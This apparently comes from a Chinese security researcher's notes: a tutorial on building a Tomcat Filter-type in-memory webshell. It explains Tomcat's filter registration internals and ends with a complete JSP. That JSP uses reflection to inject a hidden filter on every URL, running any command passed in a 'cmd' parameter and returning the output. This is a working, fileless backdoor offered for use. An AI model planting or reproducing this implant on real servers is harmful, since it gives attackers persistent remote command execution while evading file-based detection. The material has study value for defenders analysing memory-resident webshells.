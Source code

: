# Tomcat-Filter型内存马

<center>@Y4tacker</center>





当tomcat接收到请求时候，依次会经过Listener -> Filter -> Servlet，监听器的我们已经实现了相对简单一点，过滤器的则相对复杂一点

## 简单实现一个过滤器

首先需要简单写个filter

```java
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>com.yyds.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

## 如何自己添加一个新的自定义FIlter呢

实现了这个那么我们的内存马问题也就解决了

首先在init方法打上断点，它是通过调用具体的过滤器的init，毕竟很容易想到，初始化的时候就是添加的时候

在`org.apache.catalina.core.StandardContext#filterStart`

首先对filterDefs进行foreach，可以看到这是一个HashMap，对应是<key,Object>，具体是过滤器名称和FilterDef对象

![](img/4.png)

从这里不难看出我们需要对FilterDef对象设置的属性![](img/5.png)

不急着往下走，filterDefs如何添加值我们还没说，当然也很简单

![](img/8.png)

再往下，对filterConfigs这个HashMap设置ApplicationFilterConfig

```java
ApplicationFilterConfig filterConfig =
new ApplicationFilterConfig(this, entry.getValue());
filterConfigs.put(name, filterConfig);
```

具体跟入看看，这里有两种方式，

1.`filterDef.getFilter()`如果为空，则会去调用`getFilter();`实例化

![](img/6.png)

2.`filterDef.getFilter()`条件不为空

简单跟入，有get则也有set，并且是public方法也比较方便

![](img/7.png)

以上两种都可以，简单对这部分写出伪代码

```java
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```

但这样还远远不够，为什么呢，继续往下看

接下来就是调用了，我们在之前自定义的Filter的doFilter上打断点，为什么呢，因为这是监听器的核心功能，我们从这里需要知道具体取得了监听器的哪个参数

不难看出从filterConfig中取得了这个Filter，这个filterConfig可以通过StandardConfig取得

![](img/3.png)

从调用链当中我们可以看到一个filterChain![](img/9.png)

往上看可以看到这个是通过下面这行代码取得

```java
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```

跟入发现这里还有一个通过上下文取得的FilterMap，刚刚上面的伪代码并没有这一个，所需要参数如下![](img/10.png)

这里有个坑就是别忘了设置Dispatcher，这里我们设置DispatcherType.REQUEST.name()即可

```java
public void setDispatcher(String dispatcherString) {
String dispatcher = dispatcherString.toUpperCase(Locale.ENGLISH);

if (dispatcher.equals(DispatcherType.FORWARD.name())) {
// apply FORWARD to the global dispatcherMapping.
dispatcherMapping |= FORWARD;
} else if (dispatcher.equals(DispatcherType.INCLUDE.name())) {
// apply INCLUDE to the global dispatcherMapping.
dispatcherMapping |= INCLUDE;
} else if (dispatcher.equals(DispatcherType.REQUEST.name())) {
// apply REQUEST to the global dispatcherMapping.
dispatcherMapping |= REQUEST;
}  else if (dispatcher.equals(DispatcherType.ERROR.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ERROR;
}  else if (dispatcher.equals(DispatcherType.ASYNC.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ASYNC;
}
}
```



之后关于设置FilterMap，在StandardContext中找到了个addFilterMap还有个addFilterMapBefore这里我们随便来一个`org.apache.catalina.core.StandardContext#addFilterMapBefore`就好



## 具体实现内存马

接下来整理下流程

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```

![](img/19.png)



![](img/21.png)